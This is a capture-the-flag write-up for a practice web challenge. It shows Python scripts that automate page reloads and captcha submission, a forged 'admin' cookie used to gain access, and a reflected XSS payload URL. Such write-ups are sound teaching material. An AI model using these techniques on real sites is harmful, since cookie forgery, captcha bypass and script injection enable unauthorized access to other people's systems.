

# Builds.Hack.Me

<http://ctf.slothparadise.com/>

## Key 1 & 2

``` bash
% curl http://ctf.slothparadise.com/ | grep KEY
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
Dload  Upload   Total   Spent    Left  Speed
100  2421  100  2421    0     0   3407      0 --:--:-- --:--:-- --:--:--  3405
<!--- Here you go: KEY{YourSecondKey} -->
      KEY{YOURFIRSTKEY}=
```

## Key 3

The comment at the bottome of <http://ctf.slothparadise.com/about.php> says 

> You are the 79267th visitor to this page. Every thousandth visitor gets a prize.

To automate the 1000th request i build the following script 

``` Python
#!/usr/bin/env python

import requests
import sys

while True:
    r = requests.get('http://ctf.slothparadise.com/about.php')
    if 'KEY' in r.text:
        print r.text
        sys.exit()

```

Running that and waiting a while i get the following key 

``` HTML
<p>You are the 80000th visitor to this page.
 Congrats, here's your prize: KEY{999ProblemsButAReloadAint1}</p>
```

## Key 4

At <http://ctf.slothparadise.com/walled_garden.php> 1024 captchas need to be solved

Submitting one and looking at the URL and source code shows that this can be scripted 

The submitted url is <http://ctf.slothparadise.com/walled_garden.php?name=bob&captcha=52fdebd4> 

The captcha is in `<pre>` tags so the following script gives a key 

``` Python
#!/usr/bin/env python

import requests
import sys

while True:
    src = requests.get('http://ctf.slothparadise.com/walled_garden.php?name=bob')
    sp = src.text.split('<pre>')[1]
    capt = sp.split('</pre>')[0]
    r = requests.get('http://ctf.slothparadise.com/walled_garden.php?name=bob&captcha=' + capt)
    if 'KEY' in r.text:
        print r.text
        sys.exit()
```

After waiting i receive the next key

``` HTML
 <p> Captcha correct!</p> 
 <p>Congrats! Here is your key: KEY{GodIHopeYouScriptedThis}</p>  
 <p>Solved <?php=$solved?> 
```

## Key 5

At the index page there is a commeted out link to `hidden.php`

``` bash
% curl http://ctf.slothparadise.com/ | grep hidden
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
  Dload  Upload   Total   Spent    Left  Speed
  100  2421  100  2421    0     0  12012      0 --:--:-- --:--:-- --:--:-- 12044
<!--          <li><a href="/hidden.php">Hidden</a></li> -->
```

Looking at this page source i see an `xml` link that is not referenced on the other pages 

``` bash
% curl http://ctf.slothparadise.com/hidden.php | grep .xml
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
  Dload  Upload   Total   Spent    Left  Speed
  100  1416  100  1416    0     0   7047      0 --:--:-- --:--:-- --:--:--  7044
<link rel="service" href="/info.xml">
```

The `xml` page has the next key

``` bash
% curl http://ctf.slothparadise.com/info.xml | grep KEY
% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
  Dload  Upload   Total   Spent    Left  Speed
  100   199  100   199    0     0    949      0 --:--:-- --:--:-- --:--:--   952
<super_secret_flag>KEY{AllXMLIsGarbageXML}</super_secret_flag>
```

## Key 6

Back at the hidden page there is a message that i am not an admin. 

The hints from the index page says that Watch for cookies on the web pages. Sometimes they're used for authentication.

Using this info i make the following script

``` Python
#!/usr/bin/env python

import requests
cookie = {'user':'admin'}
r = requests.get('http://ctf.slothparadise.com/hidden.php', cookies = cookie)
print r.text
```

Running this script i get the last key 

``` HTML
<p>Here are your ssh credentials in case you forgot:</p>
<iframe width="560" height="315" src="//www.youtube.com/embed/i8u6EodZseg?rel=0&autoplay=1" frameborder="0" allowfullscreen></iframe>
 <p>KEY{HackThePlanet}</p>
<p>By the way <a href="/hardstuff.zip">here are the files</a> you asked me to hold on to for you.</p>
</body>
```

## Reflective XSS

At <http://ctf.slothparadise.com/walled_garden.php> it looks to be vulnerable to reflective XSS attacks 

This link shows the attack <http://ctf.slothparadise.com/walled_garden.php?name=%3C%2Fscript%3E%22%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E>


